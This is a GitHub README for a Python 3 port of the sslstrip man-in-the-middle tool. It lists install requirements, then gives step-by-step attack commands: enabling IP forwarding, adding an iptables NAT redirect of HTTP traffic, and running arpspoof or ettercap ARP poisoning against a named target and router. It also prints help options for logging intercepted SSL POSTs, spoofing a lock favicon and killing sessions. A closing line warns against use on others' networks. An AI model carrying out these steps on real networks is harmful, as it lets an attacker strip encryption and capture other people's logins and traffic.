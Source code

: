 # sslstrip3_python3
implementation of moxie marlinspikes sslstrip in python3 

# Requirements:
```
apt install python3
apt install arpspoof
pip install twisted
pip install pyOpenSSL
pip install service_identity-23.1.0-py3-none-any.whl #this is in the requirements folder with this repo -- https://pypi.org/project/service_identity/#files
```

# Running:
```
sslstrip can be run from the source base without installation.
Just run 'python sslstrip.py -h' as a non-root user to get the
command-line options.

The steps to getting this working (assuming you're running Linux)
are:

1) Flip your machine into forwarding mode (as root):
   echo "1" > /proc/sys/net/ipv4/ip_forward

2) Setup iptables to intercept HTTP requests (as root):
   iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <yourListenPort>

3) Run sslstrip with the command-line options you'd like (see above).

4) Run arpspoof to redirect traffic to your machine (as root):
   arpspoof -i <yourNetworkdDevice> -t <yourTarget> <theRoutersIpAddress>

5) alternative if arpspoof not available is to use ettercap
   ettercap -T -S -q -M arp:remote -i <interface> /<ipaddr_client>// /<ipaddr_router>//
```

# Output: 
```
python3 sslstrip.py --help

sslstrip 0.9 by Moxie Marlinspike
Usage: sslstrip <options>

Options:
-w <filename>, --write=<filename> Specify file to log to (optional).
-p , --post                       Log only SSL POSTs. (default)
-s , --ssl                        Log all SSL traffic to and from server.
-a , --all                        Log all SSL and HTTP traffic to and from server.
-l <port>, --listen=<port>        Port to listen on (default 10000).
-f , --favicon                    Substitute a lock favicon on secure requests.
-k , --killsessions               Kill sessions in progress.
-h                                Print this help message.
```

# information
dont forget to remove the iptables config afterwards and to stop arpspoof or ettercap

# warning
ssl stripping is prohibited, only try this on your own machines and networks.
